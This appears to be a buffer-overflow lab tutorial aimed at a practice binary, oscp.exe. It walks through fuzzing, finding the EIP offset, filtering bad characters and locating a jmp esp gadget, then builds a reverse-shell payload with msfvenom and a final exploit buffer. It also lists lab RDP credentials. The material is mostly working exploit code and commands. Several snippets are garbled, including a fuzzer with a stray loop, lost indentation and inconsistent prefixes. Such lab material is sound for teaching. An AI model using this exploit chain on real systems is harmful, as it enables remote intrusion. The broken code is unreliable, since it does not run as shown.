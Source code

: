 

# Buffer Overflows

Immunity Debugger
=================

    Open with - xfreerdp /u:admin /p:password /cert:ignore /v:10.10.70.232 /workarea

Fuzzing
=======

The following Python script can be modified and used to fuzz remote entry points to an application. It will send increasingly long buffer strings in the hope that one eventually crashes the application.

    #!/usr/bin/env python3

    import socket, time, sys

    ip = "10.10.70.232"

    port = 1337
    timeout = 5
    prefix = "OVERFLOW1 "

    string = prefix + "A" * 100

    for string in buffer: 
    while True:
    try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  
    except:
        print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
        sys.exit(0)
    string += 100 * "A"
    time.sleep(1)

The fuzzer will send increasingly long strings comprised of As. If the fuzzer crashes the server with one of the strings, the fuzzer should exit with an error message. Make a note of the largest number of bytes that were sent.

Crash Replication & Controlling EIP
===================================

The following skeleton exploit code can be used for the rest of the buffer overflow exploit:

    import socket
    
    ip = "10.10.70.232"
    port = 1337
    
    prefix = "OVERFLOW1"
    offset = 0
    overflow = "A" * offset
    retn = ""
    padding = ""
    payload = ""
    postfix = ""
    
    buffer = prefix + overflow + retn + padding + payload + postfix
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    try:
        s.connect((ip, port))
        print("Sending evil buffer...")
        s.send(buffer + "\r\n")
        print("Done!")
    except:
        print("Could not connect.")

Using the buffer length which caused the crash, generate a unique buffer so we can determine the offset in the pattern which overwrites the EIP register, and the offset in the pattern to which other registers point. Create a pattern that is 400 bytes larger than the crash buffer, so that we can determine whether our shellcode can fit immediately. If the larger buffer doesn't crash the application, use a pattern equal to the crash buffer length and slowly add more to the buffer to find space.

    $ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

On Windows, in Immunity Debugger, re-open the oscp.exe again using the same method as before, and click the red play icon to get it running. You will have to do this prior to each time we run the exploit.py (which we will run multiple times with incremental modifications).

While the unique buffer is on the stack, use mona's findmsp command, with the distance argument set to the pattern length.

    !mona findmsp -distance 600
    ...
    [+] Looking for cyclic pattern in memory
    Cyclic pattern (normal) found at 0x005f3614 (length 600 bytes)
    Cyclic pattern (normal) found at 0x005f4a40 (length 600 bytes)
    Cyclic pattern (normal) found at 0x017df764 (length 600 bytes)
    EIP contains normal pattern : 0x78413778 (offset 1978)

Note the EIP offset (1978)

Create a new buffer using this information to ensure that we can control EIP:

    prefix = ""
    offset = 1978
    overflow = "A" * offset
    retn = "BBBB"
    padding = ""
    payload = ""
    postfix = ""
    
    buffer = prefix + overflow + retn + padding + payload + postfix

Crash the application using this buffer, and make sure that EIP is overwritten by B's (\\x42) and that the ESP register points to the start of the C's (\\x43).

Finding Bad Characters
======================

Generate a bytearray using mona, and exclude the null byte (\\x00) by default. Note the location of the bytearray.bin file that is generated.

    !mona bytearray -b "\x00"

Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \\x01 to \\xff:

    #!/usr/bin/env python
    from __future__ import print_function
    for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')
    print()

Crash the application using this buffer, and make a note of the address to which ESP points. This can change every time you crash the application, so get into the habit of copying it from the register each time.

Use the mona compare command to reference the bytearray you generated, and the address to which ESP points:

    !mona compare -f C:\mona\appname\bytearray.bin -a <address>

Find a Jump Point
=================

The mona jmp command can be used to search for jmp (or equivalent) instructions to a specific register. The jmp command will, by default, ignore any modules that are marked as aslr or rebase.

The following example searches for "jmp esp" or equivalent (e.g. call esp, push esp; retn, etc.) while ensuring that the address of the instruction doesn't contain the bad chars \\x00, \\x0a, and \\x0d.

    !mona jmp -r esp -cpb "\x00\x0a\x0d"

The mona find command can similarly be used to find specific instructions, though for the most part, the jmp command is sufficient:

    !mona find -s 'jmp esp' -type instr -cm aslr=false,rebase=false,nx=false -cpb "\x00\x0a\x0d"

Generate Payload
================

Generate a reverse shell payload using msfvenom, making sure to exclude the same bad chars that were found previously:

    msfvenom -p windows/shell_reverse_tcp LHOST=10.18.91.23 LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d" -f c

Prepend NOPs
============

If an encoder was used (more than likely if bad chars are present, remember to prepend at least 16 NOPs (\\x90) to the payload.

Final Buffer
============

    prefix = ""
    offset = 1978
    overflow = "A" * offset
    retn = "\x56\x23\x43\x9A"
    padding = "\x90" * 16
    payload = "\xdb\xde\xba\x69\xd7\xe9\xa8\xd9\x74\x24\xf4\x58\x29\xc9\xb1..."
    postfix = ""

    buffer = prefix + overflow + retn + padding + payload + postfix
